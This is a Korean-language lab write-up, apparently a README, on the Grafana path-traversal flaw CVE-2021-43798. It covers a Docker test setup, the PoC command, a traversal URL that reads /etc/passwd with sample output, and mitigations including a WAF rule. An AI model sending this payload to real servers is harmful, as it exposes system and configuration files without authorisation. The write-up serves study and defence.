

<h1>CVE-2021-43798(Directory Traversal)</h1>

 
<ul>
  <li><h3>CVE-2021-43798 요약</h3></li>  
    

      그라파나 플러그인(Plugin) 시스템에서 웹 자원을 불러올 때, 사용자가 입력한 경로 정보에 대한 필터링/검증이 누락되었습니다.
      공격자가 URL에 상위 디렉토리 이동 문자열(../../)을 억지로 찔러 넣어 플러그인 폴더를 탈출한 뒤, 서버 내의 다른 공간으로 접근합니다.
      시스템 내부의 민감한 파일(리눅스의 계정 정보 파일 /etc/passwd나 그라파나 DB 설정 파일인 grafana.ini)을 아무런 인증 없이 원격에서 탈취할 수 있습니다.
    
 
     
  
  <li><h3>Grafana란?</h3></li>
    

      Grafana는 Grafana Labs가 개발한 오픈소스 데이터 시각화 및 모니터링 플랫폼입니다. 서버, 네트워크, 애플리케이션의 상태 데이터를 수집해서 그래프나 대시보드 형태로 보여 주는 데 사용됩니다.
    

     
  
  <li><h3>환경 구성 및 실행</h3></li>
    
다음 명령어를 실행하여 Grafana 8.3.0 테스트 환경을 시작합니다.

    <pre><code>docker compose up -d</code></pre>
    

    서버가 정상적으로 시작되면 아래 주소로 접속하여
    Grafana 기본 페이지가 표시되는지 확인할 수 있습니다.
    

    <pre><code>http://localhost:3000</code></pre>
    
   
   
  
  <li><h3>Exploit</h3></li>
    

    PoC는 Grafana의 플러그인 정적 파일 경로(<code>/public/plugins/</code>)에
    디렉터리 탐색(Path Traversal) 문자열을 삽입하여 서버 내부 파일에 접근을 시도합니다.
    

    

        다음 명령을 실행하여 서버 내부의 <code>/etc/passwd</code> 파일 읽기를 시도합니다.
    

    <pre><code>python3 poc.py http://localhost:3000 /etc/passwd</code></pre>
    

        PoC는 아래와 같은 요청을 Grafana 서버로 전송합니다.
    
 
    <pre><code>http://localhost:3000/public/plugins/tempo/../../../../../../../../../../../../../etc/passwd</code></pre>
    

        Grafana 서버는 요청 경로에 포함된 <code>../</code> 문자열에 대한 검증을
        제대로 수행하지 못하였으며, 이로 인해 디렉터리 탐색(Path Traversal)이 발생합니다.
        공격자는 상위 디렉터리로 이동하여 컨테이너 내부의 임의 파일에 접근할 수 있습니다.
    

    

        그 결과, 서버 내부의 <code>/etc/passwd</code> 파일 내용을 읽을 수 있습니다.
    

    <pre><code>
    root:x:0:0:root:/root:/bin/ash
    ...
    grafana:x:472:0:Linux User,,,:/home/grafana:/sbin/nologin
    </code></pre>
    
     
     
  
  <li><h3>대응방안</h3></li>
    

      Grafana 버전을 취약점이 해결된 8.3.1 또는 8.2.7 이상의 최신 버전으로 업데이트 해야합니다.
    

    

      웹 방화벽(WAF)에서 URL 경로에 ..이나 /etc/passwd 같은 문자열이 유입되는 것을 차단하는 룰을 적용합니다.
    

     
</ul>

